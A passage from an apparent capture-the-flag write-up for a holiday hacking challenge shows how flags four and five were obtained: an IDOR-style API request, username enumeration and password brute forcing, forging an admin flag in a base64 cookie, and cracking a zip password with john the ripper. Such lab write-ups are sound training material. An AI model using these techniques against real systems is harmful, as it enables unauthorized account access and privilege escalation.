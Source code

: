 we understand that the parameter is called (not very surprisingly after all) `uuid`.

This call gets the 4th flag

```
GET /swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043 HTTP/1.1
Host: hackyholidays.h1ctf.com

{
  "uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "username":"grinch",
  "address":{"line_1":"The Grinch","line_2":"The Cave","line_3":"Mount Crumpit","line_4":"Whoville"},
  "flag":"flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"}
```

In the end, the session cookie probably was not necessary.


# flag5 /secure-login


The login form seems to indicate that there are different responses for invalid username vs. just wrong password.

So we first try to discover a valid usernameexploting the different responses (with a list of common usernames).
After finding that **access** is a valid user, we try to bruteforce his password, again with a list of very common password.

It's just a matter of seconds to obtain a valid set of credentials:

```
username=access&password=computer
```


After loggin in we get a cookie like this one

	securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D;

which is base64 encoding of

	{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}


Changing the cookie and setting `admin:true` immediately brings us to a page where we can download 

	my_secure_files_not_for_you.zip

This zip file is password protected but john the ripper, and in particular zip2john, will easily reveal the password (`hahahaha`)

	zip2john my_secure_files_not_for_you.zip >zip.hashes
	john zip.hashes ## this gives you the password

Finally in `flag.txt` extracted from zip file we find

	flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}

We also find a gross private picture of the grinch, not very interesting after all.
